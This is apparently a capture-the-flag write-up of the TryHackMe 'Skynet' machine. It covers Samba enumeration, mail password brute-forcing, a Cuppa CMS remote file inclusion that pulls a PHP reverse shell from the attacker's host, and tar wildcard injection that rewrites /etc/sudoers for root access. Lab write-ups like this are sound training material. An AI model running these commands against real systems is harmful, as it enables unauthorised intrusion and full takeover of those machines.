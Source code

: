 ```yaml
---
title: Skynet
description: A vulnerable Terminator themed Linux machine.
slug: tryhackme
date: 2023-05-18 00:00:00+0000
image : assets/skynet.jpeg
categories:
    - TryHackMe
tags:
    - TryHackme
---
```


[Link to the machine](https://tryhackme.com/room/skynet)

## Answer 1 {#Answer-1}

My target IP : **10.10.84.89**

We start by simply launching an nmap scan.
```yaml
 nmap -sC -sV -oN nmap -O -T4 [@Target_IP]
```

![Image 1](assets/1.png)

We can see that 6 services are open, including port 80. We navigate to a web browser to see what it is.

![Image 2](assets/2.png)

We launch gobuster to discover hidden files or directories.

![Image 3](assets/3.png)

The "admin" directory is forbidden, so we focus on the "squirrelmail" directory.

![Image 4](assets/4.png)

We could attempt a brute force attack, but for now, I prefer to revisit the information provided by nmap, which indicates the presence of a Samba share. To exploit it, we can use the tool "enum4linux."
```yaml
 enum4linux 10.10.84.89
```

![Image 5](assets/5.png)

Bingo! We learn two things: anonymous account usage is allowed, and there is also a share named "**milesdyson**."

Let's connect anonymously and download the content of the "milesdyson" share.

![Image 6](assets/6.png)

![Image 7](assets/7.png)

We find that "log1.txt" is a password list.

At this stage, we have a list of passwords and a possible username: milesdyson. We try to connect to the mail server using the passwords from this list and the username milesdyson. Success! It was quite fast.

## Answer 2 {#Answer-2}

![Image 8](assets/8.png)

In one of the emails, we find the new password for this user, allowing us to connect to their share.

![Image 9](assets/9.png)

In the "notes" directory, we find the file "important.txt." 

![Image 10](assets/10.png)

The document mentions a CMS. Let's see how it looks in the browser.

![Image 11](assets/11.png)

Here is our hidden directory.

## Answer 3 {#Answer-3}

Not knowing what to do at this stage, I relaunch gobuster on this new address.

![Image 12](assets/12.png)

![Image 13](assets/13.png)

We get something called Cuppa CMS. 
Let's search if there is a known vulnerability.

![Image 14](assets/14.png)

![Image 15](assets/15.png)

> Remote File Inclusion, let's try to inject a reverse shell.

## Answer 4 {#Answer-4}


I'll use the one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

My target IP : **10.10.220.244**

Remember to modify the address in the script with your own machine's :


![Image 16](assets/16.png)

In one terminal, we start the Python server where our script is located.

In another terminal, we listen on port 1234 (if you haven't changed it):
```yaml
 nc -lvnp 1234
```

So in a shell :

![Image 17](assets/17.png)

And in another :

![Image 18](assets/18.png)

Then, in the web browser: 

```yaml
 http://10.10.84.89/[NAME OF HIDDEN DIRECTORY]/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.220.244:8000/php-reverse-shell.php
```

![Image 19](assets/19.png)

The reverse shell is in place!


![Image 20](assets/20.png)

![Image 21](assets/21.png)

## Answer 5 {#Answer-5}

Now it's time to escalate privileges.

![Image 22](assets/22.png)

I can't use the "sudo -l" command, so I decide to take a look at the crontab, and there we find an interesting file.

![Image 23](assets/23.png)

I'll check [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) to see if we can do something with that "tar" command executed as root.

![Image 24](assets/24.png)

```yaml
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```

![Image 25](assets/25.png)

After 1 minute :

![Image 26](assets/26.png)

![Image 27](assets/27.png)